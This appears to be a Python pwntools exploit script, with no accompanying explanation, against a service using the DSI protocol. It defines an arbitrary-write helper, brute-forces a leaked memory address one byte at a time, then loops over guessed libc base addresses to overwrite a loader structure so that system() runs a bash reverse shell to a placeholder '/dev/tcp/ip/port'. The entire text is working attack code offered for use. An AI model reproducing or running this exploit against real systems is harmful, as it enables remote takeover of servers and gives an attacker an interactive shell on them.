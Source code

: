 ```python

def aaw(io,addr,data):
    payload  = b'\x01'+ p8(0x18)+ b'a'*0x10 + p64(addr)
    io.send(gen_dsi(payload))
    io.recv()
    io.send(gen_dsi(data))

def boom():
    leak = b''
    for j in range(8):
        for i in range(256):
            if(j>1 and j<6): i = 255 - i
            io = remote(ip,port)
            payload  = b'\x01'+ p8(0x11+j)+ b'a'*0x10 + leak + p8(i)
            io.send(gen_dsi(payload))
            try:
                a = io.recv()
                leak += p8(i)
                log.success(str(hex(i)))
                io.close()
                break
            except:
                io.close()
    return u64(leak)

leak_addr = boom()
log.success(hex(leak_addr))

for i in range(0x0000000,0xffff000,0x1000):
    libc.address = leak_addr - i
    rtld = libc.address + 0xed2060
    cmd = b'bash -c "bash  -i>& /dev/tcp/ip/port 0<&1"'
    try:
        io = remote(ip,port)
        aaw(io,rtld+2312,cmd.ljust(0x5f8,b'\x00')+p64(libc.symbols['system']))
        io.close()
    except:
        io.close()
```